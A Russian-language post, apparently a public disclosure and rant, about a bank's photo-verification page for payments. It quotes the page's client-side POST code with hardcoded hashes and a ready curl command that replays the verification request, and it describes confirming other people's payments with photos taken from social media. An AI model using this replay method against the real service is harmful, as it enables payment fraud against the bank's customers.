 # https://pb.ua/photo/ и Детский Сад

Привет-банк в очередной раз порадовал профессионализмом своих разработчиков.

https://pb.ua/photo/ созданная якобы для "безопасности" клиентов == одна огромная дыра.

При каждом новом открытии сайта "для дополнительной безопасности транзакций" меняется только одна строка с якобы случайным числом/хешем/строкой захардкоженым прямо в post запрос:

```
	$.ajax({
		type : "POST",
		url : "getPic",
		contentType: 'application/json',
		dataType: 'text',
		data : '{ "url":"'+dataUrl+'", "phone":"'+$("#phone").val()+'","isFromCamera":"'+$("#ph_type").val()+'","hash":"20ca1639033e72c5d534d0f5c9f69dd291dda12261bb45b319ea267d21c6164e","hash2":"afdb2b7e88629c710e935c58ff33e827b60012d1c1f7f1c4bfced497e4375735"}',				
		success: function(data, textStatus, jqXHR ){
			show_prog('none');
		},
```

Судя по коду, это единственная попытка сделать хоть что-то для защиты от "хакеров" из десткого сада.

Реальной безопасности - 0. 

Буквально за полчаса можно написать скрипт, который будет спрашивать новый хеш прямо с сайта https://pb.ua/photo/ и вставлять его внутрь заранее подготовленного POST curl:

```
curl 'https://pb.ua/photo/getPic' -H 'X-NewRelic-ID: VgAEV1RTGwABU1NSAAQ=' -H 'Origin: https://pb.ua' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.8,ru;q=0.6,uk;q=0.4' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: text/plain, */*; q=0.01' -H 'Referer: https://pb.ua/photo/' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' --data-binary '{ "url":"data:image/png;base64,iVBORw0K...==", "phone":"+380991234567","isFromCamera":"Y","hash":"123","hash2":"456"}' --compressed
```

что дает возможность "подтверждать" платежи любого человека в автоматическом режиме, используя фотографию из контакта/фейсбука к примеру

PS Естесвенно без карты в руках фотографии тоже проходят "проверку", тем более если слать фотки с кучей шума и 640х480 растянутые с 320х240

# PROFIT!
